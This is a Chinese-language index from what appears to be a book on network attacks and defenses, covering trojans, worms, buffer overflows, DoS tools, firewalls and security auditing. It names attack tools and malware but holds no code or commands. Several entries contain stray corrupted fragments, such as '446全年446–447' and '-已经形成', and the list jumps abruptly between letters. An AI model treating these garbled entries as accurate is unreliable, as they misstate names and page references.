- 美国在线（AOL）ICQ 程序，缓冲区溢出, 384, 473–474。参见 AOL 木马服务；ICQ 联系人列表
- Andersson, Håkan, 306
- Anna Kournikova 恶意代码, 400–401
- anonymizer.com, 203
- 匿名连接状态，避免 FTP, 17
- 匿名登录, 438
- 反泛洪程序, 238
- Antigen 服务, 102
- AntiGen 系统清理工具, 90–91
- 反反向 DNS 查询, 44
- 反欺骗特性，专有, 289
- 反老虎队组建, 222
- 防病毒软件, 224, 342, 343, 401, 402, 419
- AOL ICQ 程序。参见美国在线（AOL）ICQ 程序
- AOL 木马服务, 122
- Apache HTTP 守护进程, 331–332


 ## 索引

- apache.org, 363
- Apache 漏洞, 372–373
- APOP 命令, 451
- 应用软件维护控制, 513–516, 623
- 专用集成电路 (ASIC), 240
- 应用交换, 242
- 任意代码执行, 422–423
- 任意命令执行, 369
- arnudp.c 程序, 347
- ARP DoS 攻击, 324
- Asax 工具, 263
- Ascend/Lucent 漏洞利用, 322–324
- ASP 代码窃取, 338
- ASP 文件, 459
- 攻击 FTP 服务, 105
- 攻击首选项, Tiger-Guard, 140
- 审计, 153, 507
  - 拨号, 540–541
  - 本地基础设施, 541
  - 安全控制, 503–504
  - 操作系统, 181–182
  - SNMP, 184
  - 广域网, 541–542
- 审计会话列表, 575–595
- 审计跟踪编辑, 243
- 审计跟踪, 521–522, 535–536, 627–628, 638
- auth 认证, 376, 477
- authd 认证, 376, 477
- 认证, 516, 517–518, 531–533, 625–626, 636–637.另见 消息认证
  - 垃圾邮件减少中的, 268
  - 强, 307
- 认证、授权和计费 (AAA) 服务器, 289
- 认证头 (AH), 288
- 认证方法, 309
- 授权控制, 518–520, 533–535
- 授权处理, 507–508, 621, 632
- 自动预览选项, 388
  - 关闭, 387
- Autoexec.bat 文件, 含 Sircam 恶意代码, 395
- 自动 LiveUpdate 技术, 129
- 自动宏执行, 478
- 可用性, 系统, 501
- Avaya, 加密密钥管理, 311, 312
- 平均带宽利用率, 568

### B

- Back Construction 服务, 101, 105
- BackDoor-G 服务, 107
- 后门黑客攻击, 71
- 后门植入, 内部, 230–231
- 后门安装, 413–414
- 后门工具包, 226
  - 防御, 226–231
- 打开后门, 94
- BackDoor 服务, 108
- 后门服务, 90
- 本地后门木马扫描, 72–89
- 背景调查, 523
- Back Orifice 服务器 (BoServ) 程序, 90–91
- Back Orifice 服务, 123
- BackOrifice 木马, 446
- 备份, 8, 9
  - 系统, 429–430
- BadTrans 蠕虫.另见 W32/BadTrans 蠕虫
- 带宽利用率, 541, 567–568
- FTP 横幅修改, 16–17
- 基线隐私接口 (BPI), 289
- .bat 文件, 未知, 411
- Beam, Philip, 192
- "加强型"防火墙, 293
- 行为规则, 494, 504, 619–620, 630
- Berkeley 互联网域名 (BIND), 43.另见 BIND 条目
  - 漏洞, 361–362
- BeroFTPD, 453
- BIND 缺陷, 443
- BIND 名称守护进程, 443
- 生物识别控制, 532
- BlackICE Defender, 127–129, 233, 425
  - 自定义, 128
- Blade Runner 服务, 101
- BLA 服务, 106
- 盲测, 538–539, 596
- 拦截器, 126–151
- 拦截
  - IP 范围扫描, 163
  - 垃圾邮件减少中的, 268
- 拦截时间, 236
- Blowfish, 269, 429
- BNC 攻击, 459
- BoDetect 系统清理器, 90–91
- BombSquad 工具, 268, 269, 643
- Bootp 互联网协议, 44–45
- BorderWare, 420–421
- BoServ 程序.另见 Back Orifice 服务器 (BoServ) 程序
- BPI.另见 基线隐私接口 (BPI)
- BrainSpy 服务, 118–119
- 入侵检测, 427, 428
- 网桥, 泛洪攻击, 239–240
- 广播地址, 定义, 368
- 广播域, 240
- 广播泛洪, 232
- 广播, 182, 239
- 广播风暴, 330
- 浏览器
  - 无 Cookie, 205
  - 输入域名, 179
- 浏览器安全设置修改, 232
- 浏览器版本升级, 203–204
- 浏览器欺骗, 201
- Brumleve, Dan, 345
- BSD DoS 攻击, 364–365
- BSD 行式打印机守护进程, 441, 480
  - 缓冲区溢出, 354–355
- BSD 崩溃, 365
- BSD 系统, 458
- Bubbel 服务, 113–114
- 缓冲区流量控制, 3–4
- 缓冲区溢出, 4, 344, 563–564.另见 缓冲区超载; 缓冲区越界
  - AIX FTPD, 454
  - 美国在线 ICQ 程序, 384, 473–474
  - CDE, 377–378
  - CDE 子进程控制服务, 352–353, 371
  - HP-UX, 366
  - IIS, 483
  - IIS 5, 398
  - IIS 索引服务 DLL, 338–340, 340–341, 483
  - in.lpd 打印守护进程, 416–417
  - Internet Explorer, 381, 471
  - ISAPI, 436
  - MAPPING_CHDIR, 453
  - 消息文件, 453
  - Netscape, 345
  - *NIX, 441–442
  - nslookupComplain, 447
  - OpenBSD/NetBSD, 453
  - Oracle9iAS Web 缓存, 486
  - Palmetto, 454
  - Red Hat Linux, 369–370
  - 远程过程调用, 441
  - SITE EXEC, 452
  - 主观代码执行, 423
  - System V, 414–415
  - Telnetd, 458
  - 事务签名代码, 447
  - 通用即插即用服务, 384–385
  - Website Pro, 464
  - yppassword, 417
- 缓冲区溢出攻击, 45
- 缓冲区溢出漏洞, 334, 336
- 缓冲区超载, Solaris
  - yppasswd, 463–464.另见 缓冲区溢出
- 缓冲区越界, Outlook 2000 vCard, 400.另见 缓冲区溢出; 反向查询缓冲区越界
- Bugs 服务, 110
- 突发错误, 568, 569
- 名片, 210

### C

- Cabletron/Enterasys
  - 漏洞利用, 324
  - 过滤, 164
- 缓存损坏/投毒, 391–392, 448
- Cain and Abel 服务, 105
- Calserver 服务, 458
- Carko 工具, 419
- 分类, 安全规划, 495–497
- CD 组件, 639–646
- CDE (通用桌面环境), 漏洞, 371
- CDE 缓冲区溢出, 377–378
- CDE 子进程控制服务, 415
  - 缓冲区溢出, 352–353, 415
  - 漏洞利用, 474
- CDE ToolTalk 服务, 漏洞, 356, 456
- CDE 漏洞, 415–416
- CD-ROM Web 服务器访问, modular, 615–616
- CERT.另见 计算机应急响应小组 (CERT)
- CERT 协调中心.另见 计算机应急响应小组协调中心
- 证书, 伪造, 399–400
- CGI (公共网关接口), 65, 191
- CGI 编码, 292
- CGI 漏洞利用扫描器, 292–293
- CGI 漏洞利用列表, 293–305
- CGI 缺陷, 433–435
- CGI 渗透工具, 433
- CGI 窃取, 331
- CGI 程序安全防护, 435
- CIScan, 644
- CGI 扫描器, 433
- CGI 漏洞扫描器, 292
- Chargen (字符流生成器) 服务, 12–13, 347
- 混杂模式检查 (CPM) 程序, 274
- *Checkout.c*, 422
- Checkpoint Firewall 1, 421–422
  - 过滤, 164
- Checkpoint VPN-1, 421
- 校验和字段, 6
- Cheese 蠕虫, 359–360
- chk_fhost() 缓冲区溢出漏洞, 355, 442, 481
- chroot() 目录结构, 443
- CIAC.另见 计算机事件咨询 (CIAC)
- CIAC 信息公告, 268
- 加密器密码模块, 284–288
- 电路, 虚拟, 4
- Cisco 600 系列 DSL 路由器, 336
- Cisco 接入产品过滤器, 226–229
- Cisco Catalyst 交换机, 573
- Cisco IOS SNMP 访问, 455
- Cisco IOS 软件, 328
- Cisco PIX 防火墙, 170
- Cisco 产品
  - 漏洞利用, 325–329
  - 欺骗, 289
- Cisco 路由器访问控制列表 (ACL), 171–178
- Cisco 路由器配置场景, 165–170
- Cisco Systems, 479
  - 加密密钥管理, 311
  - 加密密钥窃取, 309
- The Cleaner, 93, 94
- 信息清除, 507
- 避免明文密码, 18
- 客户端认证工具, 311
- 隐匿软件, 243
- 隐匿技术, 131
- 关闭端口, 2
- CNAME (规范名称) 记录类型, 179
- C|Net 网站, 265, 270, 429
  - 记录器, 245
- 代码
  - 任意, 422–423
  - 破坏性, 599
- Code.asp 文件, 459
- CodeBrrws.asp 文件, 459
- 代码执行
  - rsync, 371–372
  - 主观, 423
- 代码字段, 6
- Code Red 变种, 336
- Code Red 蠕虫, 65, 333–334, 338–340, 446, 479–480
  - 持续威胁, 335–337, 456–457
- Code Red II 木马, 479
- Code Red II 蠕虫, 334–335, 462–463
- 编码, CGI, 433
- 冲突域, 239, 240
- 冲突, 570, 571
- Coma 服务, 119
- 商业广告, 垃圾邮件, 264
- 商业软件守护进程, 231
- 通用桌面环境.另见 CDE 条目
- 通用对话框, TigerGuard, 148–151
- 公共网关接口.另见 CGI 条目
- 通信监控, 614–615
- 共同体名称, 189
  - 默认, 184
- 共同体字符串, 444
  - SNMP, 350
- 附赠 CD 组件, 639–646
- 补偿攻击检测器, 351, 354, 378, 445, 476
  - 漏洞, 468–469
- 完全 DoS 攻击, 421–422
- 组件测试程序, 527
- 受损主机, 545
- 计算机犯罪, 223–224
- 计算机应急响应小组 (CERT), 427
- 计算机应急响应小组协调中心, 153, 552
- 计算机事件咨询 (CIAC), 427.另见 CIAC 信息公告
- 计算机安全的重要性, 207.另见 安全条目
- 计算机安全事件, 530
- 计算机安全计划, 504–507
- 机密性, 系统, 501
- 配置, Cisco 路由器, 165–170
- 混淆数据包, 375
- 拥塞, 232
  - 严重, 401–402, 410
-  connectionless datagram service, 7
- 面向连接的可靠服务, 7
- 全双工连接, 4
- ConSeal PC 防火墙, 132
- 控制台黑客攻击, 412
- 联系信息
  - 别名, 155
  - 较不具体, 190
- 联系页面修改, 189
- 联系端口, 1–2
- 联系人记录, 个人, 158
- Content-Deposition MIME 头, 475–476
- Content-Type MIME 头, 475–476
- 应急管理计划, 512–513, 526, 622–623, 633
- 支持连续性, 526
- 控制连接端口, 13
- 无 Cookie 浏览器, 205
- Cookie 管理器, 224, 232
- Cookie, 201–202, 205, 484
  - 防御, 231–232
- CoreBuilder, 321, 322
- 对策, 427, 428
- cp_cmdshell, 388
- CPM 程序.另见 混杂模式检查 (CPM) 程序
- CPU 拥塞, 332, 407
- CPU 阻塞, 324
- CrackIOS.pl, 327–328
- Crash.bas 程序, 323
- CRC (循环冗余校验), 242
- CRC32 攻击, 445, 476
- CRC32 补偿攻击检测器, 378.另见 补偿攻击检测器
  - 漏洞, 353–354, 468–469
- 犯罪, 计算机, 223–224
- 加密方法, 520, 534
- CSMAP 缓冲区溢出条件, 422
- CTRL Server 工具, 464
- 自定义端口, TigerSurf, 608
- 直通交换协议, 243
- CyberCop 扫描器, 550–551
- Cyber Patrol 软件, 423
- 守护进程控制进程, 8
- 守护进程, 71, 244, 445
  - ACK, 420
  - AIX infod, 363
  - AIX 行式打印机, 48, 442, 481
  - Apache HTTP, 331–332
  - BIND 名称, 443
  - BSD 行式打印机, 354–355, 441, 480
  - 商业软件, 231
  - DNS 服务器, 43, 571
  - fcagent, 368, 369
  - finger, 65
  - FTP 服务, 14–16
  - HP-UX 行式打印机, 442, 481–482
  - HTTPd, 317
  - inetd, 8, 45
  - in.lpd 打印, 416–417
  - 互联网服务器, 317, 331–349
  - 行式打印机, 354–356
  - 加固, 317–425
  - 邮件服务器, 268
  - 网络时间, 378–379
  - *NIX, 8, 18
  - portmap, 67
  - 打印, 416–417
  - smap/smapd, 422
  - SQL, 571
  - SSH, 350–351, 445, 476–477
  - STMP, 40, 448
  - talk, 69
  - telnet, 27, 28
  - UUCP, 69–70
  - WU-FTPd, 351–352, 375–376, 453, 477–478
- 数据帧, "交换", 240
- 数据报参数问题消息, 7
- 数据报, 43
- 数据报超时消息, 7
- 数据完整性控制, 514–515, 624
- 数据截获, 511, 525
- 数据链路层, 241
- 数据保护加密功能, 281
- 数据验证控制, 514–515
- -Ddecoy_host1, decoy2 [,…] 扫描选项, 182
- DDoS 工具.另见 分布式拒绝服务 (DDoS) 工具
- 调试模式, 451
- 冗余解码, 341–342
- Deep Throat 服务, 103
- DeerField 个人防火墙, 132
- 默认共同体名称, 184
- 默认安装, 428
- 默认密码, 管理, 533
- .default 子键, 10
- 脱敏, 507
- Delta Source 服务, 125–126


 - 非军事区 (DMZ), 42, 43, 44, 66, 231, 292
- 解复用, 6
- 拒绝服务 (DoS) 攻击, 10。另见完整 DoS 攻击；分布式拒绝服务 (DDoS) 工具；DoS 条目；严重 DoS 攻击
  - Apache HTTP, 332
  - ARP, 324
  - BSD, 365
  - Express 路由器, 330
  - Fraggle, 485
  - 一般, 326–327
  - HiPer ARC 卡, 320
  - HP-UX, 366–367
  - HTTP, 327
  - IIS, 337–338
  - NetServer 8/16, 322
  - Novell, 347
  - Palm Pilot Pro, 322
  - *raptor.c*, 424
  - WebSite Professional, 349
- 拒绝服务漏洞, 448
- Deny 语句, 171, 172, 173, 174
- DES, 269, 429
- 设计。另见规划；安全规划
  - 网络, 66
  - 网站, 189–201
- 桌面管理接口 (DMI), 420
- 目的地址, 174
- 目的不可达消息, 6, 367
- 废弃介质的销毁, 507。另见处置阶段
- 破坏性代码, 599
- detect_attack 函数, 351, 445, 476
- 开发/获取阶段, 系统生命周期中, 505–506, 620, 631
- Devil 服务, 126
- DHCP 作用域配置, 572
- 拨号审计, 537, 540–541, 597
- Digital RootBeer 服务, 111–112
- 直接文件访问, 244
- 目录列表, 331–332
  - Web 服务器, 435
- 发现, 153
- 本地基础设施审计, 564–570
- 网络安全, 542–551
- 广域网审计, 573–595
- 发现分析, 553–561
- 发现对策, 153–224
- 发现技术, 428, 553–554
- 自主访问控制, 519
- 处置阶段, 系统生命周期中, 507, 621, 631
- 变形 UDP 攻击, 323
- 分布式拒绝服务 (DDoS) 工具, 419。另见拒绝服务 (DoS) 攻击
- Distributed.net 客户端程序, 74
- DMI。另见桌面管理接口 (DMI)
- DMZ。另见非军事区 (DMZ)
- Dnetc.exe 文件, 74
- DNS。另见域名服务 (DNS)；域名系统 (DNS)
- DNS 缓存中毒, 443
- DNS 目录服务, 179
- DNS 发现, 44
- DNS 漏洞对策, 44
- DNS 信息, 179–184
- DNS 查询, 179
  - 反反向, 44
- DNS 查询请求, 示例, 180–181
- DNS 资源记录类型, 179–180
- DNSs。另见域名服务器 (DNSs)
- DNS 服务器守护进程, 43, 571
- DNS 服务器, 欺骗, 288。另见 Microsoft DNS 服务器
- DNS 超时, 235
- DNS 版本发现, 44
- DNS 漏洞, 447–448
- DOCSIS 基线隐私接口 (BPI), 289
- 文档, 515, 529, 635
  - 系统, 624
- Doly 木马服务, 106
- 域名托管, 155
- 域名修改, 155–156
- 域名注册修改请求格式, 157
- 域名, 43
- 域名服务器 (DNSs), 40
- 域名服务 (DNS), 361。另见 DNS 条目
  - BIND 名称守护进程, 443
- 域名系统 (DNS), 5
- 域服务, 43–44
- *不分片*标志, 367
- DoS 攻击。另见拒绝服务 (DoS) 攻击
- DoS 攻击阈值, 235
- DoS 缓冲区溢出, 348
- DoS 泛洪, 424
- DoS Storm 蠕虫, 341
- Down, Mike, 133
- 下载网站, 9, 95
- dSAFER 模式, 374
- DSL 路由器, Cisco 600 系列, 457
- dtaction 漏洞, 363
- dtspcd, 启用和禁用, 416
- du Preez, J. L., 193
- 动态哈希表, 351
- 动态密钥管理, 311
- 动态路由, 69
- 动态网页, 202

#### E

- EAP 机制, 308–309
- 回显应答/回显请求消息, 6
- 回显请求包, 160
- 回显服务, 10–11, 347
- Eclipse 服务, 112–113
- 802.11b 网络, 306
- 802.11b 标准, 307
- 802.1x 认证标准, 312
- 电子邮件
  - 邮件轰炸, 263
  - MIME 编码, 389
  - 未经请求的, 401–402
- 电子邮件欺诈, 264
- 电子邮件生命周期, 41
- 电子邮件消息头, 264
- Email Password Sender 服务, 102
- 电子邮件蠕虫, 383
- 嵌入式 MIME 类型, 自动执行, 399
- `<EMBED>` 指令, 381
- 挪用, ASP 代码, 338
- .eml 文件扩展名, 390, 391
- 加密登录账户, 271
- 加密, 18, 43, 67, 224, 306–307, 520
- 加密函数, 281
- 加密密钥管理, 专有解决方案, 311–312
- 加密密钥窃取, 309
- 加密机制, 不可破解的, 270
- 加密选项, 专有的, 280
- 加密器, 281–284, 644
- 端点, 4–5
- 终端用户保护, 310
- Enterasys Networks, 加密密钥管理, 311。另见 Cabletron/Enterasys
- Enterprise 3.6 SP 2 SSL 握手修复, 345
- 枚举, 153
- 环境保护, 621–622, 632
- 环境安全控制, 610–511, 621–622
- 环境安全, 524–525
- ENVIRON 选项, 326
- 错误数据包利用率, 567
- /etc/hosts 文件, 355
- /etc/inetd.conf 文件, 234, 359
- 阿尔伯塔大学的以太网, 309–310
- Excel, 379, 380, 478
- EXEC 配置接口模式, 173, 176
- EXEC 配置模式, 172, 176
- Executor 服务, 103
- .exe 文件, 385, 476
- 漏洞发现, Novell, 347–348
- Exploit Scanner, 292–293
- 资源管理器。另见 Internet Explorer (IE)
- explorer.exe, Code Red 蠕虫, 334, 335
- Express 路由器, DoS 攻击, 330
- 扩展访问列表, 171, 173–176
- 外部审计, 153
- 外部威胁, 537
- 外部漏洞, 231

#### F

- 假名, 210
- 快速转发交换协议, 243
- *fcagent* 守护进程, 368, 369
- Fenton, John, 191
- FFK.exe 文件, 411
- FibreVault 配置, 368, 369
- 使用 OpenLDAP 的文件控制, 370
- 文件删除, 94
- Web 服务器文件执行, 435
- 文件扩展名, Sircam 恶意代码, 395
- 文件通配 FTP 服务器, 361
- 文件处理漏洞, 372
- File Nail 服务, 113
- 文件名通配, 352, 375
- File Pile 网站, 245, 433
- 文件重传问题, 541, 567, 570, 574
- 文件传输协议。另见 FTP 条目
- file_uploads=off 命令, 345, 470
- 过滤, Dewi320–321
  - IP 范围扫描, 163
  - 特定网关, 164–171
- 过滤程序, 可靠的, 419
- FIN 位, 5
- FindFolder.frm, 修改, 20–22
- Finger 守护进程, 65
- Finger 查询, 65
- 指纹识别, 153
- Finger 服务, 65
- Firehotker 服务, 103
- 消防安全, 524
- 消防安全因素, 510
- Firewall 1。另见 Checkpoint Firewall 1
- 防火墙, 42, 317–318, 420–425
  - "加固的," 66, 292
  - 微型系统, 126
  - 边界, 126
  - 个人, 224
  - 欺骗, 289
- 防火墙软件, 318
- 一级 ISP, 155
- 泛洪。另见缓冲区溢出；拒绝服务 (DoS) 攻击
  - 防御, 232–243
  - Nortel/Bay Access 路由器, 330–331
- 泛洪技术, 238–239, 367
- "足迹分析," 2
- Fore 服务, 101
- Form1.frm 文件, 29, 31–37
- Form2.frm 文件, 31, 37–40
- fraggle.c, 349
- Fraggle DoS 攻击, 485
- 分片扫描, 185, 558
- 无分片交换协议, 242
- 帧冻结问题, 541, 567, 570, 574
- 帧中继, 544
- 欺诈, 电子邮件, 264
- FrmFTP.frm, 修改, 18–20
- 前端登录适配, 191–192
- 前端安全网关, 163
- -F 扫描选项, 182
-已经形成
- FTP (文件传输协议), 13
- FTP99CMP 服务, 107
- FTP 横幅修改, 16–17
- FTP 反弹攻击, 185, 558–559
- FTP 连接限制, 17
- FTP 连接, 匿名, 17
- FTP 目录, 可写, 461
- FTPD 漏洞, 452–455
- FTP 权限, 18
- FTP 发布服务, 14–15
- FTP 服务器目录遍历, 462
- FTP 服务器, 文件通配, 361
- FTP 服务, 13–27, 560
  - 禁用, 13–16
- FTP 服务守护进程
  - 禁用, 15
  - 定位, 14–15
  - 终止, 15–16
- 全双工连接, 4
- Funk Software, 312
- Fyodor, 548

#### G

- GateCrasher 服务, 117
- 网关, 319–331
  - 定义, 317
  - 边界, 163–171
- Gauntlet, 422–423
- Gauntlet 防火墙, 423
- 一般 DoS 攻击, 326–327
- 通用支持系统, 496–497, 526
  - 操作控制, 522–530
  - 安全计划, 628–638
  - 技术控制, 530–536
- 通用支持系统安全计划, 493
- Ghost KeyLogger, 245
- GID。另见组标识 (GID)
- GirlFriend 服务, 121
- 全局定时器值, 234–235
- 通配, 352, 375
- 通配代码, 477
- glob() 函数, 361
- 互联网安全黄金法则, 224
- Goner 蠕虫。另见 W32/Goner 蠕虫
- gone.scr 文件, 386
- Google 网站, 270, 429
- Gopher 漏洞, 464
- GPOS (地理位置) 记录类型, 179
- 组标识 (GID), 364
- GroupWise, 347–348
- GroupWise Enhancement Pack 5.5 SP1, 348, 349
- 组可写文件, 450
- 来宾账户, 18
- *信息技术系统安全计划开发指南* (Swanson), 491
- GWWEB.EXE, 347–348

#### H

- Hack'99 KeyLogger 服务, 119
- Hack'a'Tack 服务, 123–124
- 黑客攻击对策, 226
- 黑客攻击起诉, 41
- 黑客攻击
  - 本地, 127
  - 前 75 名, 427–486
- *黑客攻击揭秘 第二版*, 1, 2, 71, 270
- 黑客攻击策略, 153
- 黑客会议, 209–210, 489
- 黑客地下组织, 209–210, 489–490。另见地下组织
- 黑客攻击, 控制台, 412。另见远程黑客攻击；网页黑客攻击；无线局域网 (WLAN), 黑客攻击
- 黑客攻击方法论, 206
- HackTracer, 132
- 半开扫描, 185, 558
- 硬盘测试工具, 391
- 硬件控制, 520
- 硬件维护控制, 527–528, 633–634
- 硬件/软件保修, 527
- 哈希函数, 307
- HDKill.bat 文件, 411
- 辅助网络, 485
- hfnetchk 工具, 435
- 有限访问的隐藏日志, 244
- "隐藏"程序, 移除, 93
- 高风险系统, 503
- 高安全关切, 502
- HINFO (主机信息) 记录类型, 179
- HiPer ARC 卡拒绝服务攻击, 319, 320
- HiPer ARC 卡登录, 320
- HKEY_CLASSES_ROOT 文件, 9, 96
- HKEY_CURRENT_CONFIG 文件, 10, 97
- HKEY_CURRENT_USER 文件, 9, 96
- HKEY_DYN_DATA 文件, 10, 97
- HKEY_LOCAL_MACHINE 文件, 9–10, 96
- HKEY_USERS 文件, 10, 96
- HLLW.QAZ 服务, 118
- 家庭环境处理漏洞, 363
- "Homer" 木马, 203
- 家庭用户, 持续威胁, 446全年446–447
- 主机分析, 548
- 基于主机的认证, 520
- 主机名认证, 442
  - 绕过, 355
- 主机名/PING/跟踪查询, 555–556
  - 结果, 557
- 主机/名称服务器记录请求格式, 160
- 主机无响应问题, 573
- 主机 PING/NSLookup 信息, 160–178
- 主机, 4–5
  - 受感染的, 545
- 主机漏洞, 546
- HP OpenView。另见 OpenView
- HP-UX 系统
  - 行式打印机守护进程缓冲区溢出, 481–482
  - 行式打印机守护进程缓冲区溢出, 442
  - 行式打印机守护进程缓冲区溢出, 355
  - 漏洞, 366–368
- HTTP DoS 攻击, 327
- HTTP GET 请求, 334, 337, 339
- HTTP 请求, 373
- HTTP 请求包, 66
- HTTP 启动文件, 331
- http/www 服务, 560
- Huff, Jim, 324
- Hybris 蠕虫传播, 401–402
- 超文本传输协议 (HTTP), 317。另见 HTTP 条目
- 超文本传输协议服务, 65–66, 325–326
- 超文本标记语言, 560

#### I

- IANA。另见互联网号码分配机构 (IANA)
- ICEpac 安全套件, 127
- ICMP (互联网控制消息协议) 回显请求, 160, 233, 485
- icmp.c 程序, 324
- ICMP 回显流量, 485
- Icmpfld.bas, 324
- ICMP 泛洪检测, 233, 234
- ICMP 消息封装, 6–7
- ICMP 消息包, 367
- ICMP_PORT_UNREACH 错误, 186
- ICQ 联系人列表, 386
- ICQ 程序。另见美国在线 (AOL) ICQ 程序


[PAGE 691]

icsa.net/html/communities/firewalls/buyers_guide/FWguide99.pdf, 598
Idcide Privacy Companion, 232
识别, 516–517, 531, 625–626, 636–637
Ident 协议, 185
idq.dll, 340
idq.dll 缓冲区溢出, 337, 436
IE. *见* Internet Explorer (IE)
IE 补丁, 476
ifconfig -a 命令, 273
ifgeneric.c, 代码, 276
if-solaris.c, 代码, 276–280
Ifstatus, 644
ifstatus.c, 代码, 274–275
IIS (Internet Information Server), 333–344. *另见* Microsoft IIS 5
缓冲区溢出, 483
漏洞, 459
IIS DoS 攻击, 337–338
IIS 索引服务 DLL, 缓冲区溢出, 338–340, 340–341, 483
IIS 日志文件, 335
IIS 服务, 457
IIS Unicode 漏洞, 446
IIS 漏洞, 459
-iL <inputfile> 扫描选项, 182
Illusion Mailer 服务, 111
图像查看器, 614
IMAP4, 451
IMAP 配置服务, 462
*imap* 远程 root 攻击, 373–374
IMAP 版本, 4.1 之前, 459–460
影响分析, 528
实施阶段, 系统生命周期, 506, 620–621, 631
入站连接, 监听, 12
事件报告服务, 267–268
事件响应能力, 530, 635–636
Incidents-Org, 552
InCommand 服务, 118
inetd.conf 文件, 8
修改, 27, 28–29
Inetd 守护进程. *见* Internet 服务器数据库 (inetd) 守护进程

Infector 服务, 124–125
infod 守护进程, AIX, 363
信息浏览器模块, 364
信息
归档, 507
丢弃, 206
网页信息, 190
信息系统安全联系人, 498
信息泄露, 447
严重, 154
空会话, 438–439
信息请求/信息回复消息, 7
信息敏感度, 619, 629–630
信息共享, 499–500, 618–619, 629
信息技术 (IT) 资源, 492–493
基础设施数据, 543
基础设施建议, 570–573
基础设施示意图审计, 596
INI 控制, TigerGuard, 148
.ini 文件, 8
初始化向量 (IV), 306, 311
初始序列号 (ISN), 360
弱点, 398
启动阶段, 631
系统生命周期, 505, 620
in.lpd 打印守护进程, 缓冲区溢出, 416–417
入/出配置, 173, 176
输入/输出控制, 511–512, 525–526, 622, 632–633
in.rlogind, 414
内部后门植入, 230–231
检查过滤器, 318
安装
默认, 428
TCP Wrappers 安装, 28–29
完整性, 系统, 501
完整性控制, 528–529, 634–635
完整性验证程序, 515, 529
Intel Express 路由器, 170
DoS 攻击, 330
in.telnetd, 414
数据拦截, 511
中间网络, 485

内部设备, 阻止访问, 397
内部错误, 570, 571
内部/外部漏洞, 231
内部登录网关, 192
内部安全标签, 520
Internet
HTTP, 65
NetBIOS/SMB 通过, 460
远程登录, 461
TigerSearching, 610
互联网号码分配机构 (IANA), 1
互联网浏览, 不安全, 223
Internet Explorer (IE), 203, 388. *另见* IE 补丁
缓冲区溢出, 381, 471
MIME 头, 475–476
安全级别, 204
Internet Explorer 5.5 SP1, 399
Internet Explorer 目录, 243–244
Internet Explorer 安全功能, 自定义, 205
Internet 过滤, 290
Internet Information Server. *见* IIS 条目
Internet 网络信息中心 (InterNIC), 554
Internet 选项模块, TigerTools 高级, 605
Internet 中继聊天 (IRC) 服务器, 389
互联网可路由地址, 42
互联网安全, 黄金法则, 224
互联网服务器守护进程, 317, 331–349
Internet 服务器数据库 (inetd) 守护进程, 8, 45
互联网服务提供商 (ISP), 40, 155
互联网服务, 540, 597
互联网远程登录标准协议, 27
网络设备发现, 542
网络操作系统 (IOS), 45, 596. *另见* IOS 条目
入侵尝试报告, 128
入侵防御机制, 225–226
入侵检测工具, 515

[PAGE 692]

- 入侵信息, 捕获, 133
- 入侵嗅探器, 133, 142–146
- 无效访问尝试, 533
- Invasor 服务, 110–111
- 反向查询缓冲区溢出, 448
- 反向查询漏洞, 443
- 隐形 FTP 服务, 101
- 隐形键盘记录器, 245
- IOS HTTP 服务器认证漏洞, 325–326
- IOS 密码破解器, 327–328
- IOS. *见* 网络操作系统 (IOS)
- IP 访问列表编号, 176
- IP 访问列表, 171–172
- IP 地址, 160, 174, 179
  - 域名, 43
- IP 地址处理, 实时, 66, 615
- IP 过滤器, 170
- IP/IPX 拥塞, 570
- iPlanet 补丁, 345, 346
- IP/邮件欺骗/垃圾邮件测试, 537, 539, 540, 596
- ipop2d 缓冲区, 67
- IPP 扩展, 343
- IP 协议, 174
- IP 范围扫描, 从外围网关阻止, 163–171
- IP 范围扫描工具, TigerSuite, 162
- IP 扫描保护, 163–164
- IPSec, 312, 360
  - 加密, 309
  - 欺骗, 288–289
- IP 服务端口, 174–176
- IP 欺骗, 288–289, 431
- IPv6, 欺骗, 288
- IP 弱点, 3
- IRC 服务器. *见* Internet 中继聊天 (IRC) 服务器
- IRIX, 漏洞, 368–369
- ISAPI 缓冲区溢出, 436
- ISAPI 脚本映射, 463
- ISC BIND 4 输入验证错误, 362
- ISDN 记录类型, 179
- ISN. *见* 初始序列号 (ISN)
- ISP. *见* 互联网服务提供商 (ISP)
- IT 资源. *见* 信息技术 (IT) 资源

- IUSR_machinename, 342
- IV. *见* 初始化向量 (IV)

#### J
- JammerKillah 服务, 104
- Java, 202–203, 484, 642
- JavaScript, 202–203, 391, 479, 484
- Juggernaut 网络分段, 273

#### K
- Kaiten 恶意代码, 388–389
- Kazimas 服务, 103–104
- kdll.dll 文件, 387, 469
- Kerberos, 310
- kernel32 文件, 387
- 关键地址, 188
- KeyInterceptor, 245
- KeyLogger, 245
- 密钥管理, 专有解决方案Topology方案, 311–312
- 密钥管理程序, 加密, 534
- KEY（公钥）记录类型, 179
- kill_print() 缓冲区溢出漏洞, 355, 442, 481
- Knight 工具, 446
- 知识型渗透, 539–540, 596–597
- knowledgebase.3com.com, 319
- Kookaburra Software Cookie Pal, 232
- KX（密钥交换器）记录类型, 180

#### L
- L0phtCrack, 270, 429
- 菜鸟, 642
- 菜鸟客户端, 代码, 83–88
- 菜鸟服务器, 代码, 74–82
- 菜鸟服务, 74
  - 代码, 74–88
- LAN 劫持, 310
- LAN Manager 认证, 439
- LanMan 哈希, 440
- 局域网过载, 574
- LAN. *见* 局域网 (LAN)
- 第 2 层交换, 241
- 第 3 层交换, 241–242
- 第 4 层交换, 242
- LC3 工具, 439

- Leaves 蠕虫, 446. *另见* W32/Leaves 恶意代码
- 遗留策略, 65
- libDtSvc.so 共享库, 364
alenmlinks.sh 恶意代码, 388

#### M

- MAC 地址过滤, 311
- MAC 地址, 240, 241, 242
- Macintosh, 379–380
- 宏执行, Macintosh, 379–380
- 宏, 自动执行, 380–381, 478
- 磁性材料, 擦除, 106
- 邮件轰炸, 防御, 263–269
- 邮件炸弹, 定义, 264
- 邮件交换 (MX) 记录, 40
- 邮件中继, 402
- 邮件服务器守护进程, 268
- 邮件服务, 67
- 邮件欺骗测试, 537, 539, 540, 596
- 邮件监视, 291
- 维护控制, 硬件和系统软件, 527–528
- 主要应用
  - 操作控制, 509–513
  - 保护, 495–496
  - 安全计划, 493, 617–628
  - 技术控制, 516–522
- 恶意代码. *另见* 木马 (Trojan); 病毒；具体的蠕虫
  - Anna Kournikova, 400–401
  - W32/Myparty, 382–383
  - W32/Sircam, 393–395
- 恶意群体, 远离, 489–490
- 管理控制, 502–508, 619–621, 630–632
- 管理信息库 (MIB), 68, 184
- 操纵, 病毒, 290
